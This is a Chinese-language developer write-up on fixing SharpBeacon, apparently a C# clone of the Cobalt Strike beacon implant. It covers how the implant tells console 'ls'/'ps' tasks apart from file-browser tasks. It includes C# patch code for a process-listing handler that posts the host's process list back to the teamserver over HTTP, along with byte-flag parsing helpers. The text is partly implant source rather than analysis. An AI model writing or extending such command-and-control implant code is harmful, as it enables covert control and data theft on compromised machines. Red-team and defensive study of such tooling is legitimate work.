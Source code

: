 **问题原因**

sharpbeacon实现了控制台的ls指令，但是实现的指令无法用于文件浏览器。熟悉beacon源码的师傅应该知道，控制台的ls与文件浏览器公用一个函数。

引出下面两个问题：

1. beacon如何知道是控制台指令还是界面指令？
2. beacon回传数据如何区别是回传给控制台还是回传给界面？

**代码位置**

`Program.cs` | `Prase.cs!AnalysisReponseData`

**问题分析**

针对第一个问题，区别在于从beacon接收到teamserver任务数据的前9-12字节（4字节）作为符号位。

我们可以看下面的举例，下面前16字节为控制台ls指令：

```php
00 00 00 35 00 00 00 0B  FF FF FF FE 00 00 00 03
```

下面前16字节为文件浏览器指令：

```php
00000000: 00 00 00 35 00 00 00 0B  00 00 00 01 00 00 00 03 
```

其中`FF FF FF FE`为控制台与界面化的区别符号位，文件浏览器中的`00 00 00 01`表示的是打开了一个文件浏览器。因此我们便可以利用这个符号位在beacon端进行区分，除此之外，前四个字节中的第四个字节代表任务号0x35(53)，对应`config.cs`中的

```php
FILE_BROWSE  = 53
```

第二个问题，在beacon回传数据时，如何让teamserver知道回传的是哪一类的数据呢？

这里参考上面提到的`Prase.cs!MakeCallbackData()`函数，该函数第一个参数为返回的数据类型，32代表控制台，22代表界面数据。因此，我们修改`Program.cs`的代码：

```php
case (int)Config.FUNCINDEX.PS:                                         //PS
    pRes = Proc.GetProcessList(cm._prase._pCommandBuff);

    if (cm._prase._strModelFlag == "psConsole")
    {
        pCallbackData = cm._prase.MakeCallbackData(32, pRes);           // 32 控制台显示
    }
    else
    {
        pCallbackData = cm._prase.MakeCallbackData(22, pRes);           // 22 界面显示 
    }

    cm.HttpPost(Config._POSTURL + Config._nBeaconID, pCallbackData);
    break;
```

其中`_strModelFlag`是在`Prase.cs`中实现的，我们新增两个函数根据字节数组解析控制台与界面的模式，然后返回值给`_strModelFlag`让其用来进行判断，新增函数如下：

```php
string GetConsoleType(byte[] inputArray)
{
    byte[] lsFlagBytes = new byte[] { 0xFF, 0xFF, 0xFF, 0xFE };
    byte[] psFlagBytes = new byte[] { 0x00, 0x00, 0x00, 0x00 };

    if (ArrayEqual(inputArray, psFlagBytes))
        return "psConsole";
    else if (ArrayEqual(inputArray, lsFlagBytes))
        return "lsConsole";
    else
        return string.Empty;
}

```